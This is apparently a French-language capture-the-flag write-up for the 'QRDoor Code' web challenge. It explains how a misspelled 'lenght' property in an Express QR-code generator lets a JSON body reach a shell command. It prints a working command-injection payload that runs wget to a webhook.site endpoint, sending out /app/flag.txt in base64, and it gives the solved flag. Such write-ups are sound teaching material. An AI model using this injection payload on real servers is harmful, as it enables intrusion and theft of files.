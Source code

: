 ```yaml
---
layout: default
type: writeup
title: QRDoor Code
category: Web
point: 50
files: ["QRDoor Code.tar"]
---
```


{% raw %}
> **title:** QRDoor Code
>
> **category:** Web
>
> **difficulty:** Easy
>
> **point:** 50
>
> **author:** Eteck#3426
>
> **description:**
>
> A company needed a website, to generate QR Code. They asked for a freelance to do this job
> 
> Since the website is up, they've noticed weird behaviour on their server
> 
> They need you to audit their code and help them to resolve their problem
> 
> Flag is situed in /app/flag.txt
> 

## Solution

Le challenge permet de générer des QRCode à partir d'un texte qu'on lui envoie :

![Site du challenge](images/site.png)

Le code source nous est donné :

![Arborescence de l'app](images/treeview.png)

Il s'agit d'un serveur **Express**, regardons un peu les différents chemins de l'app :

```js
app.get('/', async (req, res) => {
    res.render('index');
});

app.post('/generate', async (req, res) => {
    const { value } = req.body;
    try {
        let newQrCode;
        // If the length is too long, we use a default according to the length
        if (value.length > 150)
            newQrCode = new QRCode(null, value.lenght)
        else {
            newQrCode = new QRCode(String(value))
        }
        
        const code = await newQrCode.getImage()
        res.json({ code, data: newQrCode.value });
    } catch (error) {
        res.status(422).json({ message: "error", reason: 'Unknow error' });
    }
});
```

Le **`/`** n'est pas très intéressant, il n'y a rien.

Contrairement au **`/generate`** qui permet de générer le QRCode.

<br>

### Abus de la génération

On voit que si **`value.length > 150`**, alors on construit un QRCode vide avec pour nouvelle taille **`value.lenght`**.

Sauf que **`length != lenght`**

Ligne 10 on voit également : **`app.use(express.json());`**, autrement dit on peut envoyer du JSON et surcharger **`length`** et **`lenght`**.

Finalement, si notre **`value.length > 150`**, on lance la commande ligne 56 **`fortune -n ${defaultLength}`**.

Visuellement, le body que l'on POST se balade comme ça dans le code :

![Trajet de notre body dans le code](images/code.png)

Avec le payload suivant, on peut donc injecter la commande et faire lancer une requête au serveur sur un endpoint (créé avec RequestBin, Webhook.site ou pour les moins flemmards sur un de ses propres serveurs) :

```js
{
    "value": {
        "length": 151,
        "lenght": "$(wget \"https://webhook.site/1fc2a58c-2952-49ec-90e7-8bb86ca6a667/?flag=$(cat /app/flag.txt | base64)\")"
    }
}
```

Ici j'ai utilisé Postman pour faire la requête :

![Requête envoyée avec Postman](images/postman.png)

Et voici ce que mon endpoint à reçu :

![Requête reçue par l'endpoint](images/webhook.png)

Ensuite il suffit de décoder (*sur **[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=VUZkT1RVVjdSVFJUZVY5UU16UnpTVjlDTkVOclpFOHdVbjBL)** par exemple*)

![Décodage de la base64](images/cyberchef.png)


**`FLAG : PWNME{E4Sy_P34sI_B4CkdO0R}`**

{% endraw %}
